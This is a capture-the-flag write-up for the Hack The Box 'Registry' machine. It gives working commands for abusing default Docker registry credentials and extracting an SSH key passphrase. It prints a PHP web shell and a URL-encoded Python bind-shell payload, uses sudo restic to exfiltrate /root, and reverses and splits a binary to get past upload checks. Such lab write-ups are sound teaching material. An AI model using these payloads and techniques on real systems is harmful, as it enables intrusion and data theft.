

Running some enumeration on the box gives us port `22`, `80` and `443` open and running. 

The first interesting thing to notice is the `commonName` in the self-signed SSL certificate: `docker.registry.htb`. Commonly boxes will have dynamic host redirection. 

Therefore, due to the lack of DNS with HTB adding this to the `/etc/hosts` file lets us resolve this address to the box IP.

This then gives us a completely blank page?

Running `gobuster` on all endpoint gives us a `/v2` endpoint!

With some research it shows this endpoint as a `docker hub`. With a little trial and error it shows default creds:
```
admin:admin
```

A `docker` hub is designed to be able to host docker images that may be required locally.

In order to look at the available repos we can navigate to the `_catalog` directory.
```
http://docker.registry.htb/v2/_catalog
```

This shows us an image called `bolt-image`.

In order to download this image locally we need do a little setup. Because `docker` will get mad about a self-signed certificate we need to add the url to `insecure-registries`. Below is the file and contents:

Filepath:
```
/etc/docker/daemon.json
```

Contents:
```
{
  "insecure-registries" : ["docker.registry.htb"]
}
```

This will now let us pull the image like so:
```
sudo docker pull docker.registry.htb/bolt-image
```

We can then launch a shell on the container like so:
```
sudo docker run -it docker.registry.htb/bolt-image /bin/bash
```

This lets us look around the container file system.

Looking around shows us `.ssh` keys in the the `/root` directory. They are for the user `bolt`, but are password protected. A quick brute force gave no results, therefore, another method is needed.

Looking in the user directory shows us a `.vimprofile` file. This contains reference to a file `/etc/profile.d/01-ssh.sh`. This file contains:

```bash
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

This gives us the password for the `ssh` key:

```
GkOcz221Ftb3ugog
```

This lets us log on and grab the `user.txt`!

# ROOT


We're on the machine as `bolt`. Taking a look around the file system gives us access to the `bold.db`.

Taking a look inside gives us a password hash for `admin`:

```
$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK
```

Cracking it gives us

```
admin:strawberry
```

This gives us access to the `bolt` webpage.

Now, getting a reverse shell has some issues, previously it was noted that the machine was blocking connections out but we have access to connections inbound. So for example, we could host a `http` server on the box a exfiltrate files out but not the other way around.

This is the perfect use case for a bind shell, this is a reverse shell but with the client and sever flipped.

We can upload files by first changing the config.yml to allow any file type we want. In this case `.php`.



This then allows us to upload a `php` payload:

```php
<?php echo system($_GET['cmd']); ?>
```

This script just lets us have a RCE exploit. This is where we will run our bind shell!

Below is the blob url that we will use to run the command:

```
http://10.10.10.159/bolt/files/php-get-simple.php?cmd=python%20-c%20%22import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind((%27%27,2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call([%27/bin/bash%27,%27-i%27])%22
```

We can now connect to the bind shell with `netcat`:

```
nc 10.10.10.159 2222
```

This circumvents the protection and gives a shell on the victim!


Running the various enum scripts tells us we can run the `restic` command as `root` without our password. This is clearly our privesc method.

```
User www-data may run the following commands on bolt: (root) NOPASSWD: /usr/bin/restic backup -r rest* ---
```

We can use this vuln to copy the `/root` directory and read the `root.txt`.

Because of the previously discovered limit on connections outbound, we need to host a `restic` server on the machine.

We can compile a binary using this Github [repo](https://github.com/restic/rest-server). 

The website provides a way to upload files, however, there seems to be a size limit stopping our binary upload alongside a check for the magic bytes on a file.


To circumvent this we can reverse the file and split it into chunks. This will stop the file from coming up as an `ELF`.

The command `tac` (Reversed `cat`) can be used to reverse a files order. We can use the command below:
```
tac -rs '.' ./rest-server > rest-server_rev 
```

We can the chunk the file using `split`:

```
split -b 3000000 ./rest-server_rev
```

This will create a series of files:

```
xxa, xxb, xxc ...
```

That we can then zip and push to the machine.

This can be recreated on the other end and then reversed to create the binary on the other side.

NOTE: Using a dumb shell caused issues with reversing the binary and would not create a valid result. Upgrading the shell fixed this issue.

Before we run the server we need to init a repo on the victim:
```
restic init -r ./repos
```

We could now run the server locally.

```
./rest-server --no-auth --path <REPO_DIR>
```

This will now let us connect and 'backup' the `/root` directory

```
sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000/ /root
```

This will download the contents of the `/root`.

Finally we can 'restore' the backup to a place we control:

```
restic -r <REPO_DIR> restore <REPO_ID> --target /tmp
```

This will then create a `root.txt` locally and allow us to grab the flag!